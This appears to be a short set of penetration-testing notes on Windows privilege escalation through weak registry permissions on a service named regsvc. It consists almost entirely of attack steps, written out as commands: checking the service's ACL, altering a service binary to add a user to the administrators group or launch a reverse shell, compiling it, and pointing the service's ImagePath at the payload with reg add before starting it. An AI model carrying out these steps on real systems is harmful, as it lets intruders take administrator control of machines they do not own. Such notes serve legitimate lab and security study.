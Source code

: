 # Steps:

#### 1: Get-Acl -Path hklm:\system\CurrentControlSet\Services\regsvc | fl

#### 2: Check permissions of "NT AUTHORITY\INTERACTIVE" and "Everyone" if they have full file access or something similar.

#### 3: Copy the service to attacking machine.

#### 4: Change the system() function to insert command: "cmd.exe /k net localgroup administrators USER /add" or a reverse shell payload.

#### 5: Compile with x86_64-w64-mingw32-gcc then copy to target.

#### 6: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f then sc start regsvc
